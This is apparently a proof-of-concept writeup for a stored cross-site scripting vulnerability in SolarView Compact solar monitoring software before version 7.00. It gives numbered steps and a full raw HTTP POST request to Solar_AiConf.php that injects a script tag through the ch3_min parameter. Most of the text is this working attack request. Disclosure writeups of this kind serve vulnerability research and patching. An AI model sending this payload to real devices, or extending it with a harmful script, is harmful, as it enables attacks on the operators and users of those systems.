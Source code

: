 # SolarView-Compact-Stored-XSS

## Description 

Stored XSS in SolarView Compact prior to 7.00 which lead attackers to inject arbitrary script code

## POC

1. navigate to http://{HOST}/Solar_AiConf.php
2. click on update and capture the request
3. edit any of `ch*_*` values to `"><script>alert('XSS_By_Strik3r')`
  
```
POST /Solar_AiConf.php HTTP/1.1
Host: {HOST}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://126.160.241.131
Connection: close
Referer: http://{HOST}/Solar_AiConf.php
Upgrade-Insecure-Requests: 1

ch0_min=0&ch0_max=1.43&ch1_min=-50&ch1_max=50&ch2_min=1&ch2_max=5&ch3_min=1"><script>alert('XSS_By_Strik3r')</script&ch3_max=5&button=%8DX%90V
```

4. send the request and notice the XSS alert
